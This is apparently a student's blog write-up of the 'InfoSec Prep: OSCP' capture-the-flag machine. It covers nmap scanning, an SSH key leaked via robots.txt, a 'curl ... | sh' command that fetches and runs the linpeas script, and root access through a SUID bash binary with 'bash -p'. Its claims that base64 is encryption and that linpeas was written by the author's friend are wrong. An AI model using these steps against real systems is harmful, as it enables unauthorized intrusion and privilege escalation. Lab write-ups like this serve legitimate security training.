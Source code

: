 ```yaml
---
layout: post
title: writeup
tags: cyber-security
category: school
date: 02-10-2022
---
```


# InfoSec Prep: OSCP
![](/blog/1.png)
## first of all we need to innumerate the machine
here we r going to use the nmap scan
![](/blog/nmap_first.png)
we we found that there is an open port with ssh
## now we r going to see some basic things
lets take a look at /robots.txt
![](/blog/2.png)
boom we found that there is a hidden file called secret
![](/blog/3.png)
its obvious that its a base 64 encryption
so we r going to encrypt it
![](/blog/4.png)
it contains an ssh private key
now we have the ssh private key so we need its user to connect with the machine using ssh
on the main page of the website we find that someone mentioned the user "oscp"
![](/blog/5.png)
## now we will try to connect the machine
![](/blog/6.png)
![](/blog/dkhlna.png)
ouah! we'r in
we are not root so we have to try to be root
I'm going to run my favorite script written by my dear friend MZA7A to find all vulnerabilities
and sus files
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

I have tried to exploit those vulnerabilities but i didn't get anything so
let's take a look at the sus files 
![](/blog/susfile.png)
we see that file in /usr/bin/ called "bash" with its yellow color and we see that bash has some interesting permissions set
the file is called bash so lets open the bash man and try to understand well
![](/blog/-pf.png)
this "-p" could help us
### SUID
Set owner User ID
it runs with the suid bit set and may be exploited to access the file system or maintain access with elevated privileges working as a suid  backdoor if it's used to run ```sh -p``` omit the ```-p``` arguments on systems like Debian that allows the default ```sh``` to run with SUID privileges
## lets run this command ```/usr/bin/bash -p```
![](/blog/done.png)
we are root now and we got the flag
